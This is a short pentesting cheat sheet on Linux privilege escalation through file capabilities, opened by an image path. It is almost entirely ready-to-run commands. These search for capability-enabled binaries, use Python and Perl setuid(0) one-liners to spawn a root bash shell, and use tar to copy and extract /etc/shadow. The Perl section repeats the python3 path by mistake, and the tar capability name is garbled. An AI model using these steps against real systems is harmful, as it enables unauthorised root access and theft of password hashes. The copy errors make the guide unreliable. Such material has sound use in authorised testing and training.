 * Search your whole file-system recursively with the following command:

```
getcap -r / 2>/dev/null
```

#### Python

* Looking for:

```
/home/demo/python3 = cap_setuid+ep
```

* Escalate Privlages

```
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### Perl

* Check for Perl:

```
which perl
```

* Looking for:

```
/home/demo/python3 = cap_setuid+ep
```

* Escalate

```
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

#### Tar

* Check for tar:

```
which tar
```

* Looking For:

```
/home/demo/tar = cap dac read search+ep
```

* Tar the shadow:

```
./tar cvf shadow.tar /etc/shadow
```

* Untar to review:

```
./tar -xvf shadow.tar
```
